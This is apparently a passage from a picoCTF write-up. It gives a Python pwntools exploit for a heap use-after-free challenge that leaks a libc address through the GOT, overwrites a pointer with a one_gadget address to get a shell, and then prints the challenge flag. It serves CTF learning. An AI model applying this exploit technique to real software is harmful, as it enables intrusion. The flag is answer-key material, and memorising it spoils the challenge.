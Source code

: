 ```python
  sh.sendlineafter('?\n', '-1')

def destroySword(i):
  sh.sendlineafter('Quit.\n', '4')
  sh.sendlineafter('?\n', str(i))

def useSword(i):
  sh.sendlineafter('Quit.\n', '6')
  sh.sendlineafter('?\n', str(i))

def mergeSword(i1, i2):
  sh.sendlineafter('Quit.\n', '2')
  sh.sendlineafter('?\n', str(i1))
  sh.sendlineafter('?\n', str(i2))

pause()

forgeSword()
hardenSword(0, 'a'*32)
destroySword(0)

forgeSword()
hardenSword(0, ('a'*8)+p64(read_GOT)[:-1])
destroySword(0)

forgeSword()
forgeSword()
useSword(0)

libc_base = u64(sh.recvuntil('.....')[12:-5].ljust(8, '\x00')) - read_offset + 3183968
target = libc_base+one_gadget

print hex(libc_base)
print hex(target)

forgeSword()
hardenSword(2, 'a'*16+p64(target))
destroySword(2)

forgeSword()
forgeSword()

useSword(2)

sh.interactive()
```

> note that the exploit is not 100% reliable, and you might have to try a few times before it will work

flag: `picoCTF{usE_aFt3R_fr3e_1s_aN_1ssu3_2e515e86}`

> Feel free to leave a comment if any of the challenges is not well explained.